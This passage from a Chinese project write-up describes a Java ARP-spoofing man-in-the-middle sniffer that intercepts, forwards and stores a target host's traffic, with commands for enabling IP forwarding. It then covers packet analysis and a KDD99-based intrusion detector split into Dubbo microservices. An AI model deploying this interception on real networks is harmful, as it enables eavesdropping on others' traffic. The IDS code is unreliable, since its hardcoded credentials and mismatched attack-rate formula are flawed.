                  if(packet.datalink instanceof EthernetPacket){
                    EthernetPacket eth = (EthernetPacket) packet.datalink;
                    String macFromCap = eth.getSourceAddress();
                    if(!macFromCap.equalsIgnoreCase(config.getSrcMac())){
                      savePacket(ipPacket, true);
                    }
                  }
                  forward(ipPacket, gateMACBT);
                }
                //如果这个数据包的目的IP地址是目标主机的IP地址，那么说明是下行链路的数据包
                else if(ipPacket.dst_ip.getHostAddress().equals(config.getDestIp())){
                  savePacket(ipPacket, false);
                  forward(ipPacket, dstMACBT);
                }
              }
            }

            //检查是否是ARP包
            if(packet instanceof ARPPacket){
              ....
            }
          }
        }catch (Throwable e){
          ...
        }
      }
    }
  };
  executor.execute(task);
}
```

接下来测试欺骗能否成功，运行程序，并访问请求`attack/startAttack`，此时服务端会开启两个子线程：

1. 一个线程用于发送欺骗包给目标主机和网关，进行欺骗。
2. 一个线程从网卡上抓包，看看能否抓到目标主机访问`filterDomain`的数据包。

首先在目标主机上查看ARP表，判断是否欺骗成功：

![image-20210329191331592](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329191331592.png)

如上图所示，已经成功将目标主机的网关MAC地址修改为了本地主机的MAC地址，因此目标主机发送的数据包都会经过本地主机的网卡。接下来我们在目标主机上访问`filterDomain`，并在服务端开启第二个线程抓包。结果失败了，压根没抓到目标主机的数据包，为什么呢？检查发现目标主机已经不能访问Internet了，发不出包。

既然MAC地址已经是本地主机了，说明目标主机的数据包应该能够发送到本地主机的网卡上，有可能是本地主机的网卡没开启IP转发，因为即使数据包接收到了，程序也调用了转发方法，但是底层的设备不支持IP转发，目标主机仍旧是无法访问Internet的。

所以我们尝试在本地主机上开启IP转发功能：

1. 在MAC上：
   1. 开启IP转发：sudo sysctl -w net.inet.ip.forwarding=1
   2. 查看IP转发已开启（为1）：sudo sysctl -a | grep net.inet.ip.forwarding

2. 在windows上：
   1. 开启IP转发：以管理员身份打开注册表编辑器，定位注册项HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters，选择项目IPEnableRouter并修改数值为1

![image-20210329192456978](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329192456978.png)

本地主机IP转发开启成功，继续测试：在目标主机上`ping www.baidu.com`，抓到一个从网关发到目标主机的ICMP数据包，我们把它转存入Redis：

![image-20210329193000045](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329193000045.png)

至此基本的攻击算是成功了。

为了后面的数据包分析功能，我决定把数据包存在redis的list结构中，list集合的名称按`batch_id`命名，list中的value就是每个序列化后的数据包实体。

开放攻击，查看前端数据统计，成功抓到了许多数据包。但是很明显有一个问题：只有下行的数据包被抓到了，上行的数据包没有被抓到。

![image-20210329204233419](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329204233419.png)

我感觉是本地主机开了IP转发的原因，网卡在接收到目标主机访问百度的数据包后，进行IP转发，把源MAC地址修改为了本地主机的MAC地址，然后将数据包转发给网关，所以当数据包的MAC地址为本地主机的MAC地址时，本程序将其过滤掉了。看看问题代码:

```java
//如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的数据包，需要忽略
  if(ipPacket.datalink instanceof EthernetPacket){
    EthernetPacket eth = (EthernetPacket) ipPacket.datalink;
    String macFromCap = eth.getSourceAddress();
    if(macFromCap.equalsIgnoreCase(config.getDestMac())){//卡在这了
      savePacket(ipPacket, true);
    }
  }
  forward(ipPacket, gateMACBT);
}
```

将MAC地址的限制放开，因为在外层if逻辑中已经明确判断出IP地址是目标主机的IP地址了，那么就不用MAC地址过滤了，把最内层if逻辑删除。重新抓包：抓到了上行链路的数据包，基本上是ping 1个，回应2个。

![image-20210329213112283](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329213112283.png)



#### 5.5.3 停止攻击

点击attack stop按钮后，会向服务器发送请求`/attack/stopAttack`。将标识位`attacking`置为`false`，并返回`batch_id`到前端。前端随即将`batch_id`作为参数向服务器发起请求`analyse/analysisByBatchId?batchId=1`，开始分析数据包。





### 5.6 数据包分析

所有被抓取的数据包都被封装到名为`CapturedXXXPacket`的pojo类中，并序列化到redis。当服务端接收到`analysisByBatchId`请求后，会根据批次读出`CapturedXXXPacket`数据，然后对数据包进行分析。以TCP包为例，在分析过程中会将HTTP和HTTPS包从其他的TCP包中过滤出来，另行存放。假设当前在分析一个HTTP包:

1. 首先根据端口号过滤，源或者目地端口为80端口的数据包留下
2. 然后将TCP的ACK号作为Key，将TCP报文段重组，通过`appendPacket`实现
3. 最后将所有有效的HTTP包封装为`AnalyzedHttpPacket`并序列化到redis中。

主要代码如下：

```java
private long analysisHttp(Integer batchId){
  this.analyzing = true;
  List<CapturedTCPPacket> fromList = (List<CapturedTCPPacket>) redisMapper.getFromList(AttackKey.cap_packet, "batch_id" + batchId + "_TCP_list", CapturedTCPPacket.class);
  HttpPacketFilter httpPacketFilter = new HttpPacketFilter();
  Map<Long, IAnalysisRealm> analysisRealmMap = new HashMap<>();
  long size = 0;
  for (CapturedTCPPacket tcpCapturedPacket : fromList) {
    TCPPacket tcpPacket = tcpCapturedPacket.getPacket();
    //根据端口号判断是否是HTTP协议
    if(!httpPacketFilter.filter(tcpPacket)){

      if (tcpPacket.getData() != null && tcpPacket.getData().length > 0) {
        size++;
        //根据TCP包的ACK号作为Key
        if (!analysisRealmMap.containsKey(tcpPacket.getAckNum())) {
          HttpAnalysisRealm httpAnalysisRealm = new HttpAnalysisRealm();
          httpAnalysisRealm.initPacket(tcpCapturedPacket.getBatchId(), tcpCapturedPacket.isUpStream(), tcpPacket);
          analysisRealmMap.put(tcpPacket.getAckNum(), httpAnalysisRealm);
        } else {
          analysisRealmMap.get(tcpPacket.getAckNum()).appendPacket(tcpPacket);
        }
      }
    }
  }

  saveRealmPackets(analysisRealmMap, batchId, new AnalyzedHttpPacket());
  this.analyzing = false;
  return size;
}
```

其他数据包的处理类似，不再赘述。

### 5.7 前端数据包可视化

在前端设置到过滤条件后，点击Filter按钮，提交post请求`/analyze/filterPackets`到服务器。

![Snip20210406_157](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/Snip20210406_157.png)

服务端处理请求，解析参数。先从redis中按照batchId查询出数据包，然后根据过滤条件过滤，最终返回数据包。实际上应当以过滤条件作为查询语句去数据库中查询，这样能够减少数据库的查询时间并减少网络通信开销，在高并发场景下提高效率。这里用redis，没办法特别自由地查询数据。

查询后的结果如下：

![image-20210406204426228](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210406204426228.png)







## 6. 入侵检测

接下来将在以上项目的基础上，实现简单的入侵检测系统。

入侵检测一共分为四个步骤：

1. **抓取数据包**：一般的IDS通常可以挂接在网关上，通过连接集线器或者分路器，把经由网关的数据包同样转发到IDS上。在本场景下，并无上述硬件条件，因此就按上一节中的方法来捕获数据包。
2. **数据包分组**：将数据包先按设备分组，再按时间戳分组。具体就是先按源IP地址分组，在同个源IP分组内按捕获的时间窗口分组，比如10秒内的数据包放在一组，下个10秒的数据包放在一组。
3. **特征提取**：从数据包中提取有状态特征和无状态特征。
   1. 无状态特征：
      1. Packet Size：通常DoS攻击的数据包都很小，例如SYN泛洪
      2. 包间间隔：异常流量通常是集中式的。包间间隔的特征可以直接将时间差作为特征，也可以将时间差的差分作为特征。
      3. 协议：正常流量的协议是较为丰富的，异常流量通常TCP的包相当多。
   2. 有状态特征：
      1. 带宽：统计10秒窗口内的平均带宽。
      2. 目地IP地址：如果经常出现新的目的IP地址，很有可能是遭受了攻击。统计两个时间窗口内目的IP地址的变化作为特征。

4. **二分类**：将分类器的输出结果作为是否遭受攻击的依据。
   1. KNN
   2. LSVM
   3. 决策树
   4. 随机森林

接下来要解决几个问题：

1. 数据集如何获取？
2. 入侵检测服务在哪里实现？

首先关于入侵检测服务如何实现的问题，有两个解决方案：

1. 直接在同一个服务端实现，后台开一个线程定时从数据库中读数据包，然后分析。
2. 划分微服务，用Dubbo实现。



数据集采用KDD cup 1999数据集，关于该数据集的详细分析见[链接](https://blog.csdn.net/qq_38384924/article/details/97128744)。

主要用j48 tree来实现分类器，将训练好的模型保存在web端，便于读取，训练过程略了，模型文件见src/model目录。





## 7. 微服务拆分

用dubbo作为RPC框架，zookeeper作为注册中心，将数据包分析服务、入侵检测服务、邮件发送服务拆分出来，通过dubbo注册到zookeeper上，实现远程调用。

在使用dubbo的时候，需要注意spring-cloud版本和spring-boot版本的对应关系。建议在创建Spring-boot项目的时候，使用阿里的镜像源创建，然后勾选spring-cloud-alibaba中的dubbo组件，这样就无需再处理版本对应，创建出来的就是合适的版本。

我的springboot版本是`2.3.7-RELEASE`，Springcloud版本是`2.2.1-RELEASE`，在使用时报错：

```shell
cannot access its superinterface org.springframework.cloud.openfeign.Targeter
```

将`spring-boot-devtools`依赖删除即可，这应该是官方的问题。

### 模块拆分

**api模块**：创建一个api模块（普通maven工程），将服务接口、服务模型、服务异常等均放在 API 包中。

**provider模块**：每一种服务对应一个provider模块（Springboot工程）：

* analyze-service-provider：数据包分析模块
* ids-service-provider：入侵检测模块
* mail-service-provider：邮件发送模块

**服务调用**：在backend模块中调用上述服务。



### 入侵检测服务

首先在api模块中编写接口`IIDSService`:

```java
package com.hyc.interfaces;

/**
 * @author kol Huang
 * @date 2021/4/12
 */
public interface IIDSService {

  boolean isAttacked();

}
```

在analyze-service-provider模块中编写IIDSService接口的实现类`IDSServiceImpl`，代码的大体框架如下所示：

```java
public boolean isAttacked() {
        //判断是否被攻击
        //1. 从mysql中查询验证集
//        ConverterUtils.DataSource source = null;
        Instances data = null;
        try {
            InstanceQuery query = new InstanceQuery();
            query.setUsername("root");
            query.setPassword("123456");
            //读100条，先处理
            query.setQuery("select * from features");
            data = query.retrieveInstances();
        } catch (Exception e) {
            e.printStackTrace();
        }
        //2. 读取模型
        J48 j48Tree = null;
        try {
            j48Tree = (J48) SerializationHelper.read("src/model/j48.model");
        } catch (Exception e) {
            e.printStackTrace();
        }
        //3. 多分类
        for (Instance datum : data) {
            try {
                int type = (int) j48Tree.classifyInstance(datum);
                table[type]++;
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        //4. 统计判别：当此次分析过程中，有百分之80的数据记录被判别为攻击流量，那么就说明发生了攻击
        int sum = 0;
        int norm = table[0];
        for(int i = 0; i < table.length; ++i){
            sum += table[i];
        }
        double at_rate = norm * 0.1 / sum;

        return at_rate >= 0.8;
    }
```

这里有些粗糙了，应当统计所有的攻击类型，然后封装到一个DTO里返回，这样可以在邮件服务里面添加攻击的详细信息。



在api模块下的pojo包中创建`Features`类，用于封装流量的数据特征，字段如下：

```java
private long id;
//TCP连接基本特征
//TCP持续时间，默认设为0，因为无法获取
private int duration = 0;
//协议类型：TCP、UDP、ICMP
private String protocol_type;
//目标主机的网络服务类型：70种！
private String service;
//连接正常或错误的状态：11种
private String flag;
//从源主机到目标主机的数据的字节数
private int src_byte;
//从目标主机到源主机的数据的字节数
private int dst_byte;
//若连接来自/送达同一个主机/端口则为1，否则为0，检查是否是land dos攻击
private byte land;
//错误分段的数量，连续类型，范围是 [0, 3]
private byte wrong_fragment;
//加急包的个数，连续类型，范围是[0, 14]。
private byte urgent;
//访问系统敏感文件和目录的次数，连续，范围是 [0, 101]

//TCP连接内容特征
private byte hot;
//登录尝试失败的次数。连续，[0, 5]。
private byte num_failed_logins;
//成功登录则为1，否则为0，离散，0或1。
private byte logged_in;
//compromised条件（**）出现的次数，连续，[0, 7479]。
private int num_compromised;
//若获得root shell 则为1，否则为0，离散，0或1。root_shell是指获得超级用户权限。
private byte root_shell;
// 若出现”su root” 命令则为1，否则为0，离散，0或1。
private byte su_attempted;
//root用户访问次数，连续，[0, 7468]。
private int num_root;
//文件创建操作的次数，连续，[0, 100]。
private byte num_file_creations;
//一个FTP会话中出站连接的次数，连续，0。数据集中这一特征出现次数为0。
private byte num_outbound_cmds;
//登录是否属于“hot”列表（***），是为1，否则为0，离散，0或1。例如超级用户或管理员登录。
private byte is_hot_login;
//若是guest 登录则为1，否则为0，离散，0或1。
private byte is_guest_login;

//基于时间的网络流量统计特征
// 过去两秒内，与当前连接具有相同的目标主机的连接数，连续，[0, 511]。
private int count;
//过去两秒内，与当前连接具有相同服务的连接数，连续，[0, 511]。
private int srv_count;
//过去两秒内，在与当前连接具有相同目标主机的连接中，出现“SYN” 错误的连接的百分比，连续，[0.00, 1.00]。
private double serror_rate;
//过去两秒内，在与当前连接具有相同服务的连接中，出现“SYN” 错误的连接的百分比，连续，[0.00, 1.00]。
private double srv_serror_rate;
//过去两秒内，在与当前连接具有相同目标主机的连接中，出现“REJ” 错误的连接的百分比，连续，[0.00, 1.00]。
private double rerror_rate;
//过去两秒内，在与当前连接具有相同服务的连接中，出现“REJ” 错误的连接的百分比，连续，[0.00, 1.00]。
private double srv_rerror_rate;
//过去两秒内，在与当前连接具有相同目标主机的连接中，与当前连接具有相同服务的连接的百分比，连续，[0.00, 1.00]。
private double same_srv_rate;
//过去两秒内，在与当前连接具有相同目标主机的连接中，与当前连接具有不同服务的连接的百分比，连续，[0.00, 1.00]。
private double diff_srv_rate;
//过去两秒内，在与当前连接具有相同服务的连接中，与当前连接具有不同目标主机的连接的百分比，连续，[0.00, 1.00]。
private double srv_diff_host_rate;



//基于主机的网络流量统计特征
//前100个连接中，与当前连接具有相同目标主机的连接数，连续，[0, 255]。
private int dst_host_count;
//前100个连接中，与当前连接具有相同目标主机相同服务的连接数，连续，[0, 255]。
private int dst_host_srv_count;
//前100个连接中，与当前连接具有相同目标主机相同服务的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_same_srv_rate;
//前100个连接中，与当前连接具有相同目标主机不同服务的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_diff_srv_rate;
//前100个连接中，与当前连接具有相同目标主机相同源端口的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_same_src_port_rate;
//前100个连接中，与当前连接具有相同目标主机相同服务的连接中，与当前连接具有不同源主机的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_srv_diff_host_rate;
//前100个连接中，与当前连接具有相同目标主机的连接中，出现SYN错误的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_serror_rate;
//前100个连接中，与当前连接具有相同目标主机相同服务的连接中，出现SYN错误的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_srv_serror_rate;
//前100个连接中，与当前连接具有相同目标主机的连接中，出现REJ错误的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_rerror_rate;
//前100个连接中，与当前连接具有相同目标主机相同服务的连接中，出现REJ错误的连接所占的百分比，连续，[0.00, 1.00]。
private double dst_host_srv_rerror_rate;
```

该数据集共有41个特征，大致可分为以下四类：

1. TCP连接基本特征
2. TCP连接内容特征
3. 基于时间的网络流量统计特征
4. 基于主机的网络流量统计特征

然后在mysql数据库中创建一张Features表，对应着`Features`类。同时编写查询的dao操作，这里省略了，代码见`backend`模块的dao包和resources包。

至此，基本的框架已经搭建完成，如下：

1. 微服务会用到的pojo、utils、interfaces、exceptions都放到了api模块中，在其他微服务模块中添加api的依赖。
2. 在backend模块中抓包并分析，最后封装为features存入mysql。（实际上这步应当放到analyze-service中）
3. 在ids-service-provider模块中实现入侵检测，从mysql中拉取数据，再通过训练好的j48tree分类器进行分类。
4. ids服务依据分类器分类结果选择是否调用mail服务发送邮件告警。

最后在backend模块中实现：在web容器初始化的时候，开启一条低优先级的线程`IDSThread`，每间隔10秒查询一次数据库，根据模型的分类结果调用邮件服务：

```java
package com.hyc.backend.thread;

import com.hyc.dto.MailDto;
import com.hyc.interfaces.IIDSService;
import com.hyc.interfaces.IMailService;
import org.apache.dubbo.config.annotation.Reference;

/**
 * @author kol Huang
 * @date 2021/4/13
 */
public class IDSThread extends Thread{

  @Reference
  private IIDSService idsService;

  @Reference
  private IMailService mailService;

  public IDSThread(int priority){
    if(priority < 1)    priority = 1;
    if(priority > 10)   priority = 10;
    setPriority(priority);
  }

  @Override
  public void run() {
    boolean res = idsService.isAttacked();
    if (res){
      String subject = "alert!";
      String content = "Your server may under attack!";
      String[] tos = {"xxxx@xx.com"};
      MailDto dto = new MailDto(subject, content, tos);
      mailService.sendMail(dto);
    }
    try {
      Thread.sleep(10000);
    } catch (InterruptedException e) {
      e.printStackTrace();
    }
  }
}
```

```java
package com.hyc.backend.service;

import com.hyc.backend.thread.IDSThread;
import com.hyc.interfaces.IIDSService;
import org.apache.dubbo.config.annotation.Reference;
import javax.annotation.PostConstruct;


/**
 * 入侵检测服务：独立出来成为微服务
 * @author kol Huang
 * @date 2021/4/7
 */
public class IDSService {
  //当被判别为异常的数据包个数超过100个，就进入告警
  private static final Long THRESHOLD = 100L;
  @Reference
  IIDSService idsService;

  @PostConstruct
  void initIDSService(){
    //在初始化web项目的时候，就开启一条低优先级的线程，间隔10秒钟向数据库发起一段查询
    new IDSThread(2).start();
  }
}

```







## 8. 总结

